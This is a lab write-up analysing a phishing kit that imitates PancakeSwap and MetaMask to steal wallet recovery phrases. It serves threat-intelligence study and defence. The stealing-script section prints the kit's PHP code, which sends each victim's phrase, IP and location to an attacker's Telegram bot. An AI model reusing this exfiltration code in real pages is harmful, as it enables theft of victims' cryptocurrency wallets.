

# Phishing Analysis: GrabThePhisher – Inside a Crypto Wallet Phishing Kit

**Lab:** CyberDefenders – GrabThePhisher · **Category:** Threat Intel · **Difficulty:** Easy · **Result:** 10/10
**Tools:** Static file analysis (text only) · Code review
**Skills:** Phishing kit analysis · PHP code review · Exfiltration analysis · Attribution · Handling victim data

> Analysis of a lab sample. The kit was opened as text in an isolated environment – nothing was run. Victims' recovery phrases and the attacker's full bot token are deliberately left out of this report.

---

## Summary

This case looks at phishing **from the attacker's side**: the files a criminal uploads to a web server to steal cryptocurrency.

The kit impersonates **PancakeSwap**, a cryptocurrency exchange, and leads victims to a fake **MetaMask** wallet page that asks them to "import" their wallet by entering their **12-word recovery phrase** – which gives complete control of the wallet. A small PHP script then geolocates the victim, sends the phrase, IP address, location and browser details to the attacker through a **Telegram bot**, and keeps a backup copy in a hidden log file.

The log already held **three stolen recovery phrases**, and a comment in the code carried the **kit author's alias** – useful for attribution.

---

## How the kit works



---

## 1. Kit structure

The archive contained a web folder named `pankewk` – web files only, no executables:

| File | Purpose |
|---|---|
| `index.html` | Page titled **"Home \| PancakeSwap"** – a copy of the PancakeSwap site, with its CAKE, BNB and "lunar bunny" branding |
| `metamask/index.html` | Page titled **"MetaMask"** – a fake wallet "import" form with a secret phrase field |
| `metamask/metamask.php` | **The credential-stealing script** – receives the submitted phrase |
| `log/log.txt` | Backup log of every stolen phrase |
| `log/.htaccess` | Blocks web access to the log folder from everyone except the server itself |
| `src/`, `.github/` and other files | Leftover code from a legitimate open-source project, copied in to make the kit look real |

**Why a recovery phrase?** A wallet's recovery phrase is the master key: anyone who has it can restore the wallet elsewhere and empty it. No password or two-factor authentication protects it. That's why crypto phishing targets the phrase rather than a login.

## 2. The stealing script

The core logic of `metamask.php` (token redacted):

```php
// 1. Geolocate the victim
$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']);
$geo  = $array->country->name_en;
$city = $array->city->name_en;

// 2. Build the message
$message = "Wallet: Metamask
Phrase: " . $_POST["data"] . "
IP: " . $_SERVER['REMOTE_ADDR'] . " | " . $geo . " | " . $city . "
User: " . $_SERVER['HTTP_USER_AGENT'];

// 3. Send it to the attacker's Telegram bot, then keep a local copy
function sendTel($message){
    $id    = "5442785564";
    $token = "5457463144:[REDACTED]";
    file_get_contents("https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=...");
    @file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/log.txt', $text, FILE_APPEND);
}
```

| Step | What it does | Why it matters |
|---|---|---|
| Geolocation | Sends the victim's IP to **Sypex Geo**, a legitimate geolocation API | Gives the attacker each victim's country and city |
| Data collected | Recovery phrase, IP, location, browser (User-Agent) | Everything needed to steal the wallet and profile the victim |
| Exfiltration | **Telegram Bot API** (`sendMessage` to a chat ID) | Instant delivery to the attacker's phone; traffic to Telegram looks normal and is rarely blocked |
| Local backup | Appends each phrase to `log/log.txt` | A fallback if Telegram fails; `.htaccess` stops outsiders reading it |

Using **legitimate services** (Sypex Geo for location, Telegram for delivery) means the kit needs no attacker-owned infrastructure beyond the hosting server – a common pattern, and the same Telegram technique the AsyncRAT sample used in my [PhishStrike case](../01-phishstrike/report.md).

## 3. Victims

`log/log.txt` contained **three 12-word recovery phrases**, one per line. Because the script writes with `FILE_APPEND`, the file is in chronological order – **the last line is the most recent victim**.

The phrases themselves are not reproduced here. In a real incident they would be victims' credentials: the right response is to notify the affected users so they can move their funds to a new wallet, not to publish them.

## 4. Attribution

A comment in the script carried a signature:

```
With love and respect to all the hustler out there,
This is a small gift to my brothers, ...
Regards, j1j1b1s@m3r0
```

The wording suggests the kit was **shared or sold** to other criminals ("a small gift to my brothers"). The alias **`j1j1b1s@m3r0`** can be used to search underground forums and threat intel sources for other kits by the same author, and the signature, PHP file and Telegram details are good **fingerprints for linking campaigns**.

---

## Indicators of compromise

| Type | Value | Context |
|---|---|---|
| SHA256 | `f73c827c0d7aea6ac20e3e3c2e7530df62484e03b071669585acda9ba236e446` | `metamask/metamask.php` – credential-stealing script |
| SHA256 | `d6c702c530ec062f8d12ac232cb05ba4baa7f0dc132ad92b6daf124ab76861c9` | `metamask/index.html` – fake MetaMask page |
| SHA256 | `9b221eec46345975fc832892eb6075495ee57ff5cca375ef730ac339fb63d2f8` | `index.html` – fake PancakeSwap page |
| Telegram bot ID | `5457463144` | Attacker's exfiltration bot (full token withheld) |
| Telegram chat ID | `5442785564` | Attacker's receiving chat |
| Alias | `j1j1b1s@m3r0` | Kit author signature |
| URL pattern | `/metamask/metamask.php` | Path to the stealing script on any server hosting this kit |
| Service (abused) | `api[.]sypexgeo[.]net` | Legitimate geolocation API used to profile victims – context, not a blocking IOC |

---

## MITRE ATT&CK

| Tactic | Technique | Evidence |
|---|---|---|
| Resource Development | T1608.005 Stage Capabilities – Link Target | Fake PancakeSwap and MetaMask pages hosted for victims |
| Initial Access | T1566.002 Phishing – Spearphishing Link | Victims are lured to the fake site |
| Defense Evasion | T1036 Masquerading | Copies of PancakeSwap and MetaMask branding |
| Credential Access | T1056.003 Input Capture – Web Portal Capture | Recovery phrase captured by the fake import form |
| Discovery | T1614 System Location Discovery | Victim IP geolocated via Sypex Geo |
| Collection | T1074.001 Local Data Staging | Phrases appended to `log/log.txt` |
| Exfiltration | T1567 Exfiltration Over Web Service | Phrases sent via the Telegram Bot API |

---

## Recommendations

**If this kit were found on a server**
- Take the site down and preserve the files and server logs as evidence.
- Use the web server's access logs to identify every IP that submitted to `metamask.php`, and notify affected users to move their funds immediately.
- Report the bot to Telegram and the site to the hosting provider and to the impersonated brands (PancakeSwap, MetaMask).
- Share the hashes, Telegram IDs and alias with threat intel partners.

**For users and organisations**
- **No legitimate service ever asks for a wallet recovery phrase.** Entering it on any website should be treated as compromise.
- Detect and alert on outbound requests to `api.telegram.org/bot…` from web servers, which rarely need them.
- Monitor for lookalike domains impersonating your brand.
- Use hardware wallets, which keep keys off the computer entirely.

---

## What I learned

- **Phishing kits are simple.** One HTML page and a 30-line PHP script were enough to steal wallets – the danger is in the lure, not the code.
- **Understanding how a log is written tells you how to read it.** `FILE_APPEND` meant the newest entry was at the bottom.
- **Attackers hide in legitimate services.** Telegram and a public geolocation API did all the work, so detection has to rely on context.
- **Kit authors leave fingerprints.** A comment in the code gave an alias usable for attribution.
- **Handle victim data responsibly.** Analysis needs the data; a public report doesn't. I withheld the recovery phrases and the full bot token, and didn't use the token against the attacker's live bot.
